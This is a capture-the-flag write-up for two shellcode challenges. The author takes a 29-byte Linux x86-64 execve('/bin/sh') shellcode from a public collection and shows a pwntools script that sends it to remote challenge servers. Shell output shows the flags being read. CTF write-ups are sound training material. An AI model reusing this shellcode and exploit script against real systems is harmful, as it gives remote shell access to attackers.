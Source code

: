 These challenges had us input shellcode which the programs would execute.

The first Shellcode challenge had a input buffer of 64 bytes. This means that the shellcode could not be longer than 64 bytes.

I have previously done some similar challenges and have used https://shell-storm.org/shellcode/index.html before.

The binary given was x86-64. Therefore I had to use shellcode that fit.

By scrolling down to Linux x86-64 on the shell-storm website I found this:
https://shell-storm.org/shellcode/files/shellcode-905.html

This shellcode was only 29 bytes and well within the 64 bytes buffer.

Then I could craft my exploit:
```python
from pwn import *

p = remote("20.240.63.48", 30011)

p.recvuntil(b"Do you like shellcode? I do. Give me your best shellcode (max 64 bytes) and I'll run it!\n")

shellcode = b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"

p.sendline(shellcode)

p.interactive()
```

This led me to pop a shell and get the flag:
```shell
$ python3 shellexploit.py
[+] Opening connection to 20.240.63.48 on port 30011: Done
[*] Switching to interactive mode
$ ls
flag.txt
shellcode
ynetd
$ cat flag.txt
KCSC{w4ke_up_n3o}
```


Shellcode 2 was really similar, but the buffer was only 32 bytes this time. My shellcode from the previous challenge was 29 bytes, and therefore within the limit. 
The only differences I made was the port number and the string pwntools should wait until, before sending the shellcode.

```python
from pwn import *

p = remote("20.240.63.48", 30012)

p.recvuntil(b"Now write only 32 byte shellcode!\n")

shellcode = b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"

p.sendline(shellcode)

p.interactive()
```

```shell
$ python3 shellexploit.py
[+] Opening connection to 20.240.63.48 on port 30012: Done
[*] Switching to interactive mode
$ ls
flag.txt
shellcode2
ynetd
$ cat flag.txt
KCSC{f0ll0w_t3h_wh1te_rabb1t}
```